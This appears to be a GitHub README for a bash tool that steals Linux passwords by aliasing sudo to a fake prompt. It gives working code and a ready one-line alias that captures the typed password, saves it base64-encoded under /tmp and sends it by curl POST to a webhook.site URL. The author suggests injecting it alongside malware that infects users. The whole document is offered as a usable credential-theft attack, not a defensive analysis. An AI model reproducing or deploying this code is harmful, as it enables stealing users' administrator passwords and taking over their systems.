 # terminal-phising 🕵️‍♀️ 🕵
terminal password stealing using fake sudo or any backdoored command you select (can be used by run a file also)

## use webhook.site for sending out the password as request value 
this script also saved the password at /tmp/ file named with random and the linux username at the start $whoami

this 2 script very simple and easy to write and use in bash it can be useful with a kind of malware that infected users using inject this file using alias via sudo su command for activate the fake script :)  

## to replace the script with sudo we can use alias 
```bash
alias sudo='./patch-to-scritp'
```
## for remove use the sudo replaced or any other command used for phising 
```bash
unalias sudo 
```

## so just another way kind of working the same but without bash file needed in the system this one can be injected using alias only
code it self: 
```bash
stored_password=$(
  dir="/tmp/$USER-$(date +%s%N)"
  mkdir -p "$dir"
  file="$dir/content.txt"
  read -s -p "[sudo] password for $(whoami): " user_password
  echo "$user_password" | base64 > "$file"
  cat "$file" | base64 -d

  # Send the base64-encoded password to webhook.site as a POST request
  webhook_url="https://webhook.site/aaaaaa-aaa-aaa-aaaa-186aaaa034"  # Replace with your webhook URL
  encoded_password=$(echo -n "$user_password" | base64)
  curl -X POST -d "content=$encoded_password" "$webhook_url" >/dev/null 2>&1
)
```
so using this code you can inject it to an alias called sudo and by typing sudo it activate background code (the code) that save the password in file stored inside /tmp start with username who run the script like /tmp/$USER or /tmp/sudo and send the password typed to remote server we used [Webhook site](https://webhook.site) for this case. here is example of command to replace sudo with the backdoored sudo command:  
```bash
alias sudo='stored_password=$(dir="/tmp/$USER-$(date +%s%N)" && mkdir -p "$dir" && file="$dir/content.txt" && read -s -p "[sudo] password for $(whoami): " user_password && echo "$user_password" | base64 > "$file" && cat "$file" | base64 -d && webhook_url="https://webhook.site/a13a3530-7084-4f04-b0d6-186f5f832034" && encoded_password=$(echo -n "$user_password" | base64) && curl -X POST -d "content=$encoded_password" "$webhook_url" >/dev/null 2>&1); echo'

```

